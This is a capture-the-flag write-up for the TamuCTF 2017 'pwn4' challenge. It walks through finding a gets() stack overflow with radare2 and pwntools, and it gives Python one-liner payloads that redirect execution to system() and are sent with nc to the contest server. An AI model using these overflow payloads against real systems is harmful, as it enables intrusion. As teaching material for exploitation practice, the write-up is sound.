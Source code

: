 # [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn4 - 200 Points

![Pwn4 challenge description](assets/1-pwn4_description.png)

Is curious that this specific challenge is more worthy than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it is way easier.

Lets take a look to the code with r2
```bash
$ r2 pwn4 -c 'aaa; afl'
```
![Pwn4 functions](assets/2-pwn4_functions.png)

We can see four interesting functions:

* **`sym.flag_func()`** at `0x080484cb`
* **`sym.func2()`** at `0x080484e4`
* **`sym.func1()`** at `0x080484fd`
* **`sym.main()`** at `0x08048515`

```bash
[0x080483d0]> s sym.flag_func; V; p; p
# be positioned at start of sym.flag_func; Change to Visual mode; change mode view*2
```

Here they are, take a look at them.

![Pwn4 functions code](assets/3-pwn4_functions_code.png)

Obviously we should try to execute that **`sym.flag_func()`**, it seems it will try print a file (**flag2.txt**, strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it on your own with:
```
[0x080484f7]> axt sym.flag_func
```

Then we need to keep looking a bit more.

1. ~~**`sym.func2()`**~~ is just printing a message (it even tells you not to waste your time with it). So we can strikethrough.
2. **`sym.func1()`** is a bit more interesting because it is using the unsecure function **`gets()`**.  
Thanks to this function we would be able to overwrite the **``$eip``** register. We dont need to cross our fingers a lot of time because we fastly see that **`sym.func1()`** is being called from **`main()`**! yay!

Lets figure out, how many bytes do we need to overwrite **``$eip``** register.
```bash
[0x080484f7]> q # Close r2 (we need to open the binary again with debug mode).
$ pwn cyclic 40 # To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -X "stdin=\"`pwn cyclic 40`\"" -d pwn4 -c 'aaa; dc;'
.
.
[0x61616165]> q
$ pwn cyclic -l 0x61616165
16
```
So, we can overwrite the **``$eip``** register writing the next following 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (**`flag2.txt`**) to try this out.

```bash
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
```
![Pwn4 printing flag2.txt](assets/4-pwn4_printing_flag2.png)

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](assets/5-pwn4_remote_flag2_content.png)

Ouch! that file was just a decoy. There must be a file named **`flag.txt`**.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to **`system()`**.
The only thing we need to do is to pass a different argument: **`cat flag.txt`** instead of **`cat flag2.txt`**.

If you inspect all the strings of the binary you may find surprise:
![Pwn4 printing flag2.txt](assets/6-pwn4_pointer_flag_file.png):

As you may know, in order to pass the arguments to the function they need to be pushed into the stack. In case of a string not its value but its reference (a pointer **`0x0804a028`**.

Because we can overwrite the stack we can "imitate" a push into it:
1. Instead of starting in the address of **`sym.flag_func()`** (**`0x080484cb`**) we will use **`system()`** one (**`0x080484d9`**).
	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'
    ```
2. We need to push the pointer to the string to indicate **`system()`** which is its argument.
 	```bash
    $ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'
    ```

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
```
![Pwn4 printing flag2.txt](assets/7-pwn4_answer.png)
Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.